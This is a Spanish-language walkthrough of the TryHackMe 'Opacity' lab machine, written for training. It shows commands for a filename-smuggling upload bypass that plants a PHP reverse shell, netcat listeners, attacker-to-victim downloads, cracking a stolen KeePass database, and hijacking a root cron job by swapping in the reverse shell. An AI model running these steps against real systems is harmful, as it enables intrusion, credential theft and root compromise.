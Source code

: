 # Opacity - TryHackMe (Fácil)

Opacity es una máquina linux de dificultad fácil de la plataforma TryHackMe.

- [Reconocimiento](#reconocimiento)
- [Enumeración](#enumeracion)
- [Explotación](#explotacion)
- [Post-Explotación](#post-explotacion)
- [Elevación de Privilegios](#elevacion-de-privilegios)

## Reconocimiento

Lo primero es hacer un escaner de puertos con Nmap.

```
sudo nmap -p- -vvv --open -n -Pn -sS -T4 10.10.107.126 -oN nmap/open-ports
```

```
PORT    STATE SERVICE      REASON
22/tcp  open  ssh          syn-ack ttl 63
80/tcp  open  http         syn-ack ttl 63
139/tcp open  netbios-ssn  syn-ack ttl 63
445/tcp open  microsoft-ds syn-ack ttl 63
```

Hacemos otro escaner para enumerar los servicios que corren por los puertos 22, 80, 139, 445.

```
nmap -p 22,80,139,445 -sVC -v -Pn -n 10.10.107.126 -oN nmap/escaner
```

Vemos que los servicios son:
- **22:** OpenSSH 8.2p1
- **80:** Apache httpd 2.4.41
- **139, 445:** Samba smbd 4.6.2

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 73:02:54:41:f6:f3:f7:d8:bc:3d:f8:5b:e2:f9:ae:e0 (RSA)
|   256 17:c9:55:ec:06:77:f6:9a:1d:8d:5d:44:cf:d5:20:26 (ECDSA)
|_  256 ab:fc:b2:88:41:a9:b6:82:70:9d:ec:10:93:c5:59:e7 (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-title: Login
|_Requested resource was login.php
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
```

Analizamos la ṕagina con whatweb para ver si hay alguna tecnología que nos interese, pero no hay nada especial, solamente que la página redirige automáticamente al directorio /login.php

```
❯ whatweb http://10.10.107.126/ | tee whatweb
http://10.10.107.126/ [302 Found] Apache[2.4.41], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.107.126], RedirectLocation[login.php]
http://10.10.107.126/login.php [200 OK] Apache[2.4.41], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.107.126], PasswordField[Password], Title[Login]
```

![login](captura_2025-07-18_09-20-08.png)

## Enumeracion

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .html,.php,.txt,.js,.md -u "http://10.10.107.126/FUZZ" -t 50
```

Con `ffuf` vemos que hay un directorio `/cloud`

![ffuf](captura_2025-07-18_09-22-45.png)

Es una página en la que podemos subir imagenes desde una url externa.

![/upload](captura_2025-07-18_09-23-20.png)

Creamos un .png sin nada para probar que es lo que hace la página al subir una imagen.

```
touch test.png
sudo python3 -m http.server 8000
```

Vemos que hace la llamada a la url y la imagen se sube al directorio /cloud/images/

![file upload](captura_2025-07-18_09-28-12.png)

## Explotacion

La idea es subir un archivo .php para conseguir una shell reversa.

Nos descargamos el [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), un script de php para conseguir una reverse shell.

Cambiamos la ip por la nuestra y ponemos un puerto, en este caso el 4444.

![](captura_2025-07-18_10-19-43.png)

Hay que pensar como funciona el código por detras. 
Probablemente sea algo asi: Llamada a la url => Se comprueba si el nombre del archivo termina en .png, .jpg, .gif o cualquier otra extensión de imagen => Descarga el archivo y lo guarda en `/cloud/images/`

Lo que podemos hacer es poner la url de esta forma http://10.9.2.157:8000/shell.php .jpg
De esta forma detectará que la url termina en .jpg pero a la hora de guardarlo lo guardara como shell.php, despues de procesar la url la cual verdaderamente es http://10.9.2.157:8000/shell.php

Escuchamos en el puerto 4444 con `nc -lvnp 4444` y ejecutamos `curl http://10.10.107.126/cloud/images/shell.php`

Y obtenemos la shell reversa.

## Post-Explotacion

Estabilizamos la shell con los siguientes comandos:

```
script -qc /bin/bash /dev/null
Ctrl + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```

## Elevacion de privilegios

Dentro de /opt hay un archivo `dataset.kdbx`

![/opt](captura_2025-07-18_10-22-49.png)

Montamos un servidor http con python para descargarlo en la máquina atacante.

`python3 -m http.server 8181`

`wget http://10.10.107.126:8181/dataset.kdbx`

Vemos que el archivo es una base de datos de Keepass 2.

```
❯ file dataset.kdbx
dataset.kdbx: Keepass password database 2.x KDBX
```

Nos instalamos Keepass2

`sudo apt-get install keepass2`

Al abrir el archivo vemos que esta protegido con contraseña.

![alt text](captura_2025-07-18_10-30-03.png)

Para crackear la contraseña creamos el hash con keepass2john y la crackeamos con john.

```
keepass2john dataset.kdbx > hash.txt
john -w=/usr/share/wordlists/rockyou.txt hash.txt --format=KeePass
```

![john](captura_2025-07-18_10-31-58.png)

Introducimos la contraseña y vemos que en la base de datos esta la password del usuario sysadmin.

![keepass](captura_2025-07-18_10-32-27.png)

Nos cambiamos al usuario sysadmin.

![su sysadmin](captura_2025-07-18_10-33-04.png)

Dentro de `/home/sysadmin` tenemos una carpeta `/scripts`

![](captura_2025-07-18_10-33-50.png)

Dentro hay un archivo `script.php` vemos que lo que hace es crear un .zip de la carpeta `/scripts`

![](captura_2025-07-18_10-34-59.png)

Descargamos en la máquina victima el archivo [pspy64](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64) para ver si algún comando se ejecuta en tiempo real.

```
//Máquina atacante
sudo python3 -m http.server 8000 

//Máquina victima
wget http://10.9.2.157:8000/pspy64
chmod +x pspy64
./pspy64
```

Vemos que cada minuto el usuario root ejecuta el archivo script.php

![pspy64](captura_2025-07-18_10-46-49.png)

No tenemos permisos de escritura en `script.php` pero este script carga una librería de php `lib/backup.php` y este archivo si que tiene permisos de escritura, por lo que:

1. Cambiamos el puerto en el archivo `shell.php`.
2. Montamos un servidor con python.
3. Nos ponemos en escucha por el puerto de hayamos puesto en `shell.php`
3. Descargamos el archivo shell.php.
4. Eliminamos el archivo `lib/backup.php`.
5. Cambiamos el nombre de `shell.php` por `lib/backup.php`.


```
//Máquina atacante
nvim shell.php
sudo python3 -m http.server 8000
nc -lvnp 4433

//Máquina victima
wget http://10.9.2.157:8000/shell.php
rm lib/backup.php
mv shell.php lib/backup.php
```

Esperamos un minuto y obtenemos la shell como usuario root.

![root](captura_2025-07-18_11-12-55.png)